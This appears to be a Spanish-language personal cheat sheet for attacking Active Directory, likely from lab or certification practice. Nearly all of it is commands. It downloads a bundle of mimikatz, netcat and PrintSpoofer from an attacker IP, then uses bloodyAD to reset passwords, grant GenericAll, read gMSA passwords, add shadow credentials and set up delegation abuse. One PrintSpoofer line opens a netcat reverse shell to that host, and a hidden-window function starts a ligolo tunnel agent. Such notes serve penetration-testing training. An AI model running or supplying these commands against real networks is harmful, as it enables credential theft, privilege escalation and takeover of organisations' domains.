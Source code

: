 
## Active Directory

[Active-Directory-Exploitation-Cheat-Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)


### Subir tools

- **Comprimir archivos en zip**

* Opcion 1:
```bash
cd fwindows/     # dentro de la carpeta que tiene todo
zip -r ../tools.zip * 
```

* Opcion 2:
```bash
zip -r tools.zip agent.exe nc.exe PrintSpoofer64.exe mimikatz.exe PowerView.ps1 SharpHound.ps1
```
---
```bash
iwr -uri http://192.168.45.152:8000/tools.zip -Outfile tools.zip
```

* **Descomprimir**

```bash
Expand-Archive tools.zip -DestinationPath .
```

* **Utils evil-winrm**

```bash
Remove-item
```

* **bloodhound**

```bash
bloodhound-python -u <user> -p <password> -d <domain> -c All -ns <ip> --zip
```

* **sync DC**

```bash
ntpdate <dc-ip>
```

#### bloodyAD

[BloodyAD Cheatsheet](https://seriotonctf.github.io/BloodyAD-Cheatsheet/index.html)

* **Obtener info de un usuario**

```bash
bloodyAD --host <dc-ip> -d <domain> -u <username> -p <password> get object <target_username>
```

* **Agregar usuarios bloodyAD**

```bash
bloodyAD --host <dc-ip> -d <domain> -u <user> -p <password> add groupMember 'Service Accounts' <user-to-add>
```

* **Cambiar password**

```bash
bloodyAD --host <dc-ip> -d <domain> -u <username> -p <password> set password <target_username> <new_password>
```

* **Otorgar GenericAll a un usuario**

```bash
bloodyAD --host <dc-ip> -d <domain> -u <username> -p <password> add genericAll <DN> <target_username>
```

* **WriteOwner**

```bash
bloodyAD --host <dc-ip> -d <domain> -u <username> -p <password> set owner <target_group> <target_username>
```

* **ReadGMSAPassword**

```bash
bloodyAD --host <dc-ip> -d <domain> -u <username> -p <password> get object <target_username> --attr msDS-ManagedPassword
```

- Alternativa:

```bash
python3 gMSADumper.py -u <user> -p <password> -d <domain>
```
> TombWatcher machine

* **Habilitar cuenta deshabilitada**

```bash
bloodyAD --host <dc> -d <domain> -u <username> -p <password> remove uac <target_username> -f ACCOUNTDISABLE
```

* **Restore a deleted object **

```bash
bloodyAD --host $dc -d $domain -u $username -p $password -k set restore $user_to_restore
```

* **Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag**

```bash
bloodyAD --host <dc-ip> -d <domain> -u <username> -p <password> add uac <target_username> -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

* **Modificar UPN**

```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $old_upn userPrincipalName -v $new_upn
```
- Corroborar:

```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object $target_user --attr userPrincipalName
```

* **MachineAccountQuota**

- Enumerate MachineAccountQuota:
```bash
bloodyAD --host $dc -d $domain -u $username -p $password get object 'DC=dc,DC=dc' --attr ms-DS-MachineAccountQuota
```
- Set MachineAccountQuota value to 10:
```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object 'DC=dc,DC=dc' ms-DS-MachineAccountQuota -v 10
```

* **Modify mail**

```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user mail -v newmail@test.local
```

* **Modify the altSecurityIdentities attribute (ESC14B)**

```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user altSecurityIdentities -v 'X509:<RFC822>user@test.local'
```
* **Find Writable Attributes**

```bash
bloodyAD --host $dc -d $domain -u $username -p $password get writable --detail
```

* **Shadow Credentials**

```bash
bloodyAD --host $dc -d $domain -u $username -p $password add shadowCredentials $target
```

* **WriteSPN**

```bash
bloodyAD --host $dc -d $domain -u $username -p $password set object $target servicePrincipalName -v 'domain/meow'
```

* **Find Deleted Objects**

```bash
bloodyAD --host $dc -d $domain -u $username -p $password get writable --include-del
```

* **Extended Search Operations**

```bash
bloodyAD --host $dc -d $domain -u $username -p $password get search -h
```

- Ejemplos:

```bash
-c 1.2.840.113556.1.4.2064 -c 1.2.840.113556.1.4.2065 to display tombstoned
```

```bash
bloodyAD --host $dc -d $domain -u $username -p $password -k get search -c 1.2.840.113556.1.4.2064 -c 1.2.840.113556.1.4.2065
```

* **Crear nueva computadora **

```bash
bloodyAD --host $dc -d $domain -u $username -p $password add computer $computer_name $computer_password
```

* **Add Resource Based Constrained Delegation**

```bash
bloodyAD --host $dc -d $domain -u $username -p $password add rbcd 'DELEGATE_TO$' 'DELEGATE_FROM$'
```

#### Certipy

[Cheatsheet Ceripy](https://seriotonctf.github.io/ADCS-Attacks-with-Certipy/index.html)


* **Evil-Winrm**

#### Printer

```powershell
.\PrintSpoofer64.exe -c "C:\Users\eric.wallows\Documents\nc.exe 192.168.45.152 4444 -e cmd"
```

### Ejecucion en segundo plano

* Funcion

```powershell
function bg_exec($cmd) {
    Start-Process -WindowStyle Hidden -FilePath "powershell.exe" -ArgumentList "-nop -w hidden -c $cmd"
}
```
* ligolo:
```powershell
bg_exec "C:\Users\eric.wallows\Documents\agent.exe -connect 192.168.45.152:11601 -ignore-cert"
```

### Automation Script:

```bash
. .\Executor.ps1
```

#### Help:

```bash
. .\Executor.ps1 -h
```
#### Ligolo Executor:

```bash
Invoke-Ligolo -ip <ip>
```
#### Print-Spoofer

```bash
Invoke-PrintSpoofer -ip <ip>
```

### Port Forwarding

#### ligolo listener

```bash
listener_add --addr <ip_destino:puerto> --to <ip_kali:puerto> --tcp
```

### Shell upgrade (ver Utils)

```bash 
SHELL=/bin/bash script -q /dev/null
```
